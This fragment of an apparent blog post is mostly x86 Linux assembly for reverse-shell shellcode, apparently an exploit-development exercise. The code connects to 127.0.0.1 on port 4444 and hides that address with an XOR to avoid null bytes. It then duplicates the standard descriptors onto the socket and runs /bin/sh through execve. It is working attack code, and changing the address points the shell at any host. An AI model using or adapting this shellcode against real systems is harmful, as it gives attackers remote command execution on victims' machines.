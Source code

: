 	; peer.sin_port 	= htons(DPORT);
	; peer.sin_addr.s_addr = inet_addr(IP);
	; ret = connect(sfd, (const struct sockaddr *)&peer, sizeof(struct sockaddr_in));

	; 127 = 0x7f
	; 0   = 0x0
	; 0   = 0x0
	; 1   = 0x1

	; push 0x0100007f
	mov eax, 0xfeffff80
	xor eax, 0xffffffff
	push eax
	push word 0x5c11 	; port 4444 is 0x5c11
	push word 0x2 		; AF_INET is 2


	mov ecx, esp
	mov dl, 0x10 ; sizeof(struct sockaddr_in)
	xor eax, eax
	mov ax, 0x16a
	int 0x80

	test eax, eax ; check if eax is zero
	jnz exit_on_error


	; Duplicating descriptor 0, 1, 2 to the socket opened by client
	;
	; int dup2(int oldfd, int newfd);
	;
	; dup2 is defined as #define __NR_dup2 63 in /usr/include/i386-linux-gnu/asm/unistd_32.h

	xor ecx, ecx
	mov cl,  2
	xor eax, eax

dup2:
	mov al, 0x3F	; 63 in decimal
	int 0x80	; duplicating file descriptors in backwards order; from 2 to 0
	dec ecx
	jns dup2

	; Executing shell
	;
	; int execve(const char *filename, char *const argv[], char *const envp[]);
	; execve() is defined as #define __NR_execve 11 on /usr/include/i386-linux-gnu/asm/unistd_32.h

	xor eax, eax
	push eax	; The NULL byte
	push 0x68732f2f ; "sh//". The second '\' is used to align our command into the stack
	push 0x6e69622f ; "nib/"
	mov ebx, esp	; EBX now points to "/bin//sh"

	xor ecx, ecx
	xor edx, edx
	mov al, 0xB	; 11 in decimal
	int 0x80

exit_on_error:
	mov bl, 0x1
	xor eax, eax	; zero-ing EAX
	mov al, 0x1
	int 0x80

{%endhighlight%}
